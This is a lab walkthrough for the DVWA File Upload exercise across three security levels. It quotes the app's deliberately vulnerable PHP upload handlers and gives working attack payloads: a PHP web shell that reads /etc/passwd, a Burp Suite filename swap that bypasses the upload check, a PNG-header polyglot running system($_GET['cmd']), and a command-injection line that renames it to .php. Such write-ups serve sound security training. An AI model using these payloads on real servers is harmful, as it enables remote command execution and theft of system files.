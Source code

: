 # DVWA - File Upload

## Description

**Vulnerability:** File Upload    
**Impact:** Leveraging file upload functionality to gain access to server.

---

## LOW Security Level
This level has this source code:
```php
if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // Yes!
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}
```

So this is simple when upload a file to the server it will be saved to this folder `/hackable/uploads` so after uploading we can get access to the file through `/hackable/uploads/<filename>`.

Searching about **PHP Web Shell** you can find a lot of code to run commands on the server then `echo` the result to out view. The PHP is:

```php
<?php
    $output = shell_exec('cat /etc/passwd');
    echo "<pre>$output</pre>";
?>
```

Create a `shell.php` with that command and upload to the server. Browse `/hackable/uploads/shell.php` you should see the `/etc/passwd` content of your system.


## MEDIUM Security Level
In this level, we will use Burp Suite to change the filename in order for the web app to run our PHP code.

We have to change the filename of our created PHP code from `shell.php` to `shell.php.jpg` which is acceptable to be uploaded to the app because the server has this check in the source code:

```php
// Is it an image?
if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) &&
    ( $uploaded_size < 100000 ) ) {

    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // Yes!
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}
else {
    // Invalid file
    echo '<pre>Your image was not uploaded. We can only accept JPEG or PNG images.</pre>';
}
```

We cannot upload a file that isn't `.jpeg` or `.png`. Before upload `shell.php.jpg` I will turn on Intercept in Burp Suite and upload the file.

In the captured request I will change the `shell.php.jpg` to the original `shell.php`. By this way we can bypass the check but still can run our PHP code.

Visit `/hackable/uploads/shell.php` we should get our desired result.

## HIGH Security Level
The updated source code has new check:
```php
if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
    ( $uploaded_size < 100000 ) &&
    getimagesize( $uploaded_tmp ) ) {
        // ...
    }
```

This code will prevent us using the approach from MEDIUM security level. We have to create a fake image file. Use this code to fake a `shell.png` file:
```bash
echo -ne '\x89\x50\x4e\x47\x0d\x0a\x1a\x0a<?php system($_GET["cmd"]); ?>' > shell.png
```

Upload the `shell.png`, it should be successful.  Then we have to combine with `Command Injection` vulnerability with this payload:
```bash
1.1.1.1|mv ../../hackable/uploads/shell.png ../../hackable/uploads/shell.php
```

Then visit `/hackable/uploads/shell.php?cmd=cat /etc/passwd`. You should get the content of `/etc/passwd` of your own system.

## Resources
- https://www.acunetix.com/websitesecurity/upload-forms-threat/
- https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload